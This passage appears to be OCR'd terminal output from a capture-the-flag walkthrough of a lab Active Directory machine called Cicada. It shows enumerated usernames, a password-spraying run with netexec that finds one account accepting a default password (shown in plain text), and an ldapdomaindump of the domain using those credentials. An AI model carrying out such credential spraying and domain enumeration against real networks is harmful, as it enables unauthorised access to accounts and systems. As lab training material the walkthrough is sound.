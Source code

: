 SMB         10.10.11.35     445    CICADA-DC        1109: CICADA\Dev Support (SidTypeGroup)
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
******************************************************************************************************************************************************************************************************
└─$ cat username             
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars

└─$ netexec smb 10.10.11.35 -u username -p 'Cicada$M6Corpb*@Lp#nZp!8'
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
******************************************************************************************************************************************************************************************************
└─$ ldapdomaindump 10.10.11.35 -u 'cicada\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished

└─$ ls -l                                                                                 
total 228
-rw-rw-r-- 1 kali kali  1274 Oct  8 15:31  domain_computers_by_os.html
-rw-rw-r-- 1 kali kali   371 Oct  8 15:31  domain_computers.grep
-rw-rw-r-- 1 kali kali  1266 Oct  8 15:31  domain_computers.html
-rw-rw-r-- 1 kali kali  9571 Oct  8 15:31  domain_computers.json
-rw-rw-r-- 1 kali kali 10424 Oct  8 15:31  domain_groups.grep
-rw-rw-r-- 1 kali kali 17626 Oct  8 15:31  domain_groups.html
-rw-rw-r-- 1 kali kali 85912 Oct  8 15:31  domain_groups.json
-rw-rw-r-- 1 kali kali   256 Oct  8 15:31  domain_policy.grep
-rw-rw-r-- 1 kali kali  1152 Oct  8 15:31  domain_policy.html
-rw-rw-r-- 1 kali kali  5986 Oct  8 15:31  domain_policy.json
-rw-rw-r-- 1 kali kali    71 Oct  8 15:31  domain_trusts.grep
-rw-rw-r-- 1 kali kali   828 Oct  8 15:31  domain_trusts.html
-rw-rw-r-- 1 kali kali     2 Oct  8 15:31  domain_trusts.json
-rw-rw-r-- 1 kali kali 14442 Oct  8 15:31  domain_users_by_group.html
-rw-rw-r-- 1 kali kali  2171 Oct  8 15:31  domain_users.grep
-rw-rw-r-- 1 kali kali  5992 Oct  8 15:31  domain_users.html
-rw-rw-r-- 1 kali kali 20876 Oct  8 15:31  domain_users.json
-rw-r--r-- 1 kali kali  1266 Oct  8 15:07 'Notice from HR.txt'
-rw-rw-r-- 1 kali kali   113 Oct  8 15:17  username
******************************************************************************************************************************************************************************************************
domain_users.html: